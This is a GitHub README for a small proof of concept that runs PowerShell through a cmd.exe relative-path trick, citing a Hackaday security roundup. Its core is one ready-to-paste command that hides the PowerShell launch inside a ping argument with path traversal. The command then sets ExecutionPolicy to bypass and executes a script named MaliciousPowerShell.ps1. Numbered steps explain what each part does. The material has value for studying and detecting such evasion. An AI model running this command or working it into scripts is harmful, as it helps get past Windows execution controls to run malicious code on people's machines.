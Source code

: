 # Cmd exe relative path Proof of Concept

Created by: Brad Voris<BR />

PowerShell script execution via cmd.exe relative path
This was in Hackaday article:
https://hackaday.com/2020/06/12/this-week-in-security-crosstalk-tls-resumption-and-brave-shenanigans/

This can be run from Windows 10 run copy and paste code
cmd.exe /c "ping 127.0.0.1/../../../../../../../Windows/system32/WindowsPowerShell/v1.0/powershell.exe" -ExecutionPolicy bypass -file c:\temp\MaliciousPowerShell.ps1

Path and file of PowerShell script are variables you can change
c:\temp\MaliciousPowerShell.ps1

cmd.exe will 
1. load a DOS prompt
2. cancel the ping command 
3. Run PowerShell with the Execution Policy in bypass mode
4. Load a PowerShell Script and execute

## Connect with me at
<A HREF="https://www.victimoftechnology.com">Victim Of Technology<A />
<BR /><BR />
<img alt="GitHub" src="https://img.shields.io/github/license/bvoris/Cmdexerelativepathpoc"><img alt="GitHub commit activity" src="https://img.shields.io/github/commit-activity/m/bvoris/Cmdexerelativepathpoc"><img alt="GitHub All Releases" src="https://img.shields.io/github/downloads/bvoris/Cmdexerelativepathpoc/total"><img alt="GitHub repo size" src="https://img.shields.io/github/repo-size/bvoris/Cmdexerelativepathpoc"><img alt="GitHub language count" src="https://img.shields.io/github/languages/count/bvoris/Cmdexerelativepathpoc"><img alt="GitHub issues" src="https://img.shields.io/github/issues/bvoris/Cmdexerelativepathpoc"><img alt="GitHub top language" src="https://img.shields.io/github/languages/top/bvoris/Cmdexerelativepathpoc">

